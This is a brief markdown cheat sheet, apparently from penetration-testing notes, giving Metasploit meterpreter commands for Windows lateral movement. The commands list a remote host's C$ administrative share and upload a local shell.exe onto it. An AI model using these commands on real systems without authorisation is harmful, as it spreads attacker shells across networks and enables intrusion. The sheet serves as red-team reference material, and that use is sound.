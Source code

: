 # Metasploit

Search Tag(s): #lateral-movement #metasploit-framework #windows

## 01 - List Files and Directories

```
meterpreter > ls \\\\<IP>\\c$

meterpreter > ls //<IP>/c$
```

## 02 - Upload Files

```
meterpreter > upload /path/to/local/shell.exe \\\\<IP>\\c$\\shell.exe

meterpreter > upload /path/to/local/shell.exe //<IP>/c$/shell.exe
```